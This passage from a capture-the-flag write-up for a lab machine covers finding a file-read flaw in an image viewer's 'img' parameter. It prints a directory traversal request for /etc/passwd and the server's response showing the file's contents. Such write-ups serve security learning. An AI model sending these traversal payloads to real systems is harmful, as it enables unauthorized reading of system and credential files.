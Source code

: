 ### Files Read 

There was an 'Upload' link on the page even if I was not connected to the application. I tried it, I was able to upload files to the server.

![File Uploaded](/assets/images/2023/07/Inject/Uploaded.png "File Uploaded")

After I uploaded an image, I had a link to look at it. I tried uploading some source code files, but they were rejected.

The way the images were displayed was interesting. I did not have a direct link to the image, they were passed in the 'img' parameter of the query string: 'http://target.htb:8080/show_image?img=image.png'. I tried to read the passwd file.

```http
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1
Host: target.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

It worked.

```http
HTTP/1.1 200
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 1986
Date: Fri, 31 Mar 2023 12:23:05 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```
